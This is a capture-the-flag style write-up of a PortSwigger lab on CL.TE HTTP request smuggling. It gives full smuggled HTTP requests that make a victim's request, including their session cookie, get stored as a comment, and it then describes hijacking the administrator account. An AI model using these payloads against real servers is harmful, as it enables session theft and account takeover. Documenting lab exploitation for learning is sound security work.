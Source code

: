 # Exploiting HTTP request smuggling to capture other users' requests

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests), you'll learn: Exploiting HTTP request smuggling to capture other users' requests! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

> Note: The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201184511.png)

In here, we can test for HTTP request smuggling.

But, we need to determind which type of header does the front-end and back-end server uses.

- CL.TE:

First, we can test CL.TE (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header).

To do so, we need to sent an attack request, then a normal request.

**Attack request:**
```http
POST / HTTP/1.1
Host: 0a0b009503762decc15371be0099007c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

This request will smuggle a 404 page GET request.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201184911.png)

**Normal request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201184925.png)

As you can see, our normal request has been overrided by our attack smuggled request.

Hence, the web application is **vulnerable to CL.TE HTTP request smuggling.**

In the lab's background, our goal is to **smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.**

**In the home page, we can view other posts:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185122.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185137.png)

And we can leave some comments.

Let's leave a test comment:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185219.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185232.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185246.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185314.png)

When we clicked the "Post Comment", **it'll send a POST request to `/post/comment`, with parameter `csrf`, `postId`, `comment`, `name`, `email`, `website`.**

Also, the `name` and `comment` value is being **reflected** to the post page.

**Armed with above information, we can smuggle a request to the back-end server that causes the next user's request to be stored in the application:**
```http
POST / HTTP/1.1
Host: 0a0b009503762decc15371be0099007c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 260
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Cookie: session=ix1mM13Nfy3blSXvkpeuSx2VQC8eANjo
Content-Type: application/x-www-form-urlencoded
Content-Length: 793

csrf=dzIBnytJENliX4HnUuoeIn1UbW3Yh2PJ&postId=1&name=smuggled&email=user%40smuggled.com&website=&comment=
```

> Note: The `comment` parameter must be at the last parameter. Also, you need to include your session cookie, otherwise the CSRF token is invalid.

The `Content-Length` header of the smuggled request indicates that the body will be 793 bytes long, but we've only sent 104 bytes. In this case, the back-end server will wait for the remaining 689 bytes before issuing the response, or else issue a timeout if this doesn't arrive quick enough. As a result, when another request is sent to the back-end server down the same connection, the first 689 are effectively appended to the smuggled request.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201191605.png)

> Note: The attack request need to be sent three times in order to retrieve the next user's request.

**Then, refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201191707.png)

Nice! We successfully retrieved the next user's session cookie!

**Let's hijack that user's account via editing the session cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201191808.png)

I'm user `administrator`!

# What we've learned:

1. Exploiting HTTP request smuggling to capture other users' requests